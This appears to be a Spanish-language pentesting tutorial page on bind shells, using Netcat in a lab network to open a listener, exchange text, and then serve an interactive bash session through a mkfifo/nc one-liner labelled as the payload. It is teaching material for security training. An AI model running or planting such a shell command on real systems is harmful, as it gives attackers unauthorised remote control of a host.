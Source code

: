 # Bind Shells

En muchos casos, trabajaremos para establecer una shell en un sistema en una red local o remota. Esto significa que utilizaremos la aplicación de emulación de terminal en nuestra caja de ataque local para controlar el sistema remoto a través de su shell. Esto generalmente se hace usando una shell _bind_ o _reverse_.

## Bind Shell

Con una _bind shell_, el sistema objetivo inicia un oyente (_listener_) y espera una conexión desde el sistema del pentester (la caja de ataque).

<figure><img src="../../.gitbook/assets/image (675).png" alt=""><figcaption></figcaption></figure>

### **Ejemplo de Bind Shell**

Como se muestra en la imagen, nos conectaríamos directamente con la dirección IP y el puerto que está escuchando en el objetivo. Hay varios desafíos asociados con obtener una shell de esta manera. A continuación, algunos aspectos a considerar:

* Debe haber un oyente iniciado previamente en el objetivo.
* Si no hay un oyente iniciado, tendríamos que encontrar una manera de hacerlo.
* Los administradores típicamente configuran reglas de firewall de entrada estrictas y NAT (con implementación de PAT) en el borde de la red (expuesta al público), por lo que ya tendríamos que estar en la red interna.
* Es probable que los firewalls del sistema operativo (en Windows y Linux) bloqueen la mayoría de las conexiones entrantes que no estén asociadas a aplicaciones confiables.

Los firewalls del sistema operativo pueden ser problemáticos cuando intentamos establecer una shell, ya que necesitamos tener en cuenta las direcciones IP, los puertos y la herramienta utilizada para que nuestra conexión funcione correctamente. En el ejemplo anterior, la aplicación utilizada para iniciar el oyente se llama **GNU Netcat**. **Netcat (nc)** es nuestra "navaja suiza" ya que puede funcionar sobre TCP, UDP y sockets Unix. Es capaz de utilizar IPv4 e IPv6, abrir y escuchar en sockets, operar como proxy, e incluso manejar entrada y salida de texto. Usaríamos `nc` en la caja de ataque como nuestro cliente, y el objetivo sería el servidor.

Vamos a entender más a fondo esto practicando con Netcat y estableciendo una conexión _bind shell_ con un host en la misma red sin restricciones.

## Practicando con GNU Netcat

Primero, necesitamos activar nuestra caja de ataque o **Pwnbox** y conectarnos al entorno de red de la Academia. Luego, asegurarnos de que nuestro objetivo esté iniciado. En este escenario, interactuaremos con un sistema Linux Ubuntu para comprender la naturaleza de una _bind shell_. Para hacerlo, utilizaremos **Netcat (nc)** tanto en el cliente como en el servidor.

Una vez conectados al objetivo mediante SSH, iniciaremos un oyente de Netcat:

**No. 1: Servidor - Objetivo iniciando oyente Netcat**

```bash
Target@server:~$ nc -lvnp 7777
Listening on [0.0.0.0] (family 0, port 7777)
```

En este caso, el objetivo será nuestro servidor, y la caja de ataque será nuestro cliente. Al presionar Enter, el oyente se inicia y espera una conexión desde el cliente.

De vuelta en el cliente (caja de ataque), utilizaremos `nc` para conectarnos al oyente que iniciamos en el servidor.

### **No. 2: Cliente - Caja de ataque conectándose al objetivo**

```bash
sherlock28@htb[/htb]$ nc -nv 10.129.41.200 7777
Connection to 10.129.41.200 7777 port [tcp/*] succeeded!
```

Notemos cómo estamos usando `nc` tanto en el cliente como en el servidor. En el lado del cliente, especificamos la dirección IP del servidor y el puerto que configuramos para escuchar (7777). Una vez que nos conectamos con éxito, veremos el mensaje "succeeded!" en el cliente, como se muestra arriba, y un mensaje de conexión recibida en el servidor, como se ve abajo.

### **No. 3: Servidor - Objetivo recibiendo la conexión del cliente**

```bash
Target@server:~$ nc -lvnp 7777
Listening on [0.0.0.0] (family 0, port 7777)
Connection from 10.10.14.117 51872 received!    
```

Sepamos que esto no es una shell propiamente dicha. Es solo una sesión TCP de Netcat que hemos establecido. Podemos ver su funcionalidad escribiendo un mensaje simple en el lado del cliente y viendo cómo se recibe en el servidor.

### **No. 4: Cliente - Caja de ataque enviando el mensaje "Hello Academy"**

```bash
sherlock28@htb[/htb]$ nc -nv 10.129.41.200 7777
Connection to 10.129.41.200 7777 port [tcp/*] succeeded!
Hello Academy  
```

Una vez que escribimos el mensaje y presionamos Enter, veremos que el mensaje es recibido en el servidor.

### **No. 5: Servidor - Objetivo recibiendo el mensaje "Hello Academy"**

```bash
Victim@server:~$ nc -lvnp 7777
Listening on [0.0.0.0] (family 0, port 7777)
Connection from 10.10.14.117 51914 received!
Hello Academy  
```

## Estableciendo una Shell Bind Básica con Netcat

Hemos demostrado que podemos usar Netcat para enviar texto entre el cliente y el servidor, pero esto no es una _bind shell_ porque no podemos interactuar con el sistema operativo ni con el sistema de archivos. Solo podemos pasar texto a través del canal configurado por Netcat. Usemos Netcat para proveer nuestra shell y establecer una verdadera _bind shell_.

En el lado del servidor, necesitaremos especificar el directorio, shell, oyente, trabajar con algunos canales y redireccionamiento de entrada y salida para garantizar que se sirva una shell al sistema cuando el cliente intente conectarse.

### **No. 1: Servidor - Asociando una shell Bash a la sesión TCP**

```bash
Target@server:~$ rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc -l 10.129.41.200 7777 > /tmp/f
```

Los comandos anteriores son considerados nuestro _payload_ y entregamos este _payload_ manualmente. Notaremos que los comandos y el código en nuestros _payloads_ variarán dependiendo del sistema operativo del host al que se los entreguemos.

De vuelta en el cliente, utilizaremos Netcat para conectarnos al servidor ahora que una shell en el servidor está siendo servida.

### **No. 2: Cliente - Conectándose a la shell **_**bind**_** en el objetivo**

```bash
sherlock28@htb[/htb]$ nc -nv 10.129.41.200 7777
Target@server:~$  
```

Veremos que hemos establecido con éxito una sesión de _bind shell_ con el objetivo.
